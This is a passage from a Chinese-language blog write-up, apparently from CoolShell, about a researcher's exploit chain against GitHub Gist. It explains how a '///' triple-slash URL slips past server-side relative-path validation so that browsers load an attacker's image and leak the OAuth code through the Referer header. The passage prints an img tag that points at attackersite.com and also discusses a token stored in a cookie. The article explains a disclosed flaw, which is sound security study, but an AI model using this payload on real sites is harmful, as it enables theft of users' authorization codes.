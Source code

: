 
不过，我们可以用一个很诡异的技巧：


**<img src=”///attackersite.com”>**


这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。


##### 像程序员一样的思考


这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，


* 对于绝对路径：你会匹配两个//，后面的可能会是 [[email protected]](/cdn-cgi/l/email-protection)（[[email protected]](/cdn-cgi/l/email-protection)是可选的），然后可能会有:<n>端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。


* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。


好了，如果coolshell.cn网页中的<img src=>或<a href=>中用到的相对路径是 /host.com，那么浏览器会解释成：https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。


但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：


[CoolShell Test](///www.google.com)


`<a href="///www.google.com">CoolShell Test</a>`


关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。


于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。


到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。


#### 第四个bug – Gist把github\_token放在了cookie里


于是Egor在用户的cookie里找到了 github\_token


![](/assets/images/coolshell.cn/wp-content/uploads/2014/02/gist_cookie.png)


但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](/2011/Web%E5%BC%80%E5%8F%91%E4%B8%AD%E9%9C%80%E8%A6%81%E4%BA%86%E8%A7%A3%E7%9A%84%E4%B8%9C%E8%A5%BF.md "Web开发中需要了解的东西")》）。


于是，Egor只能另谋出路。
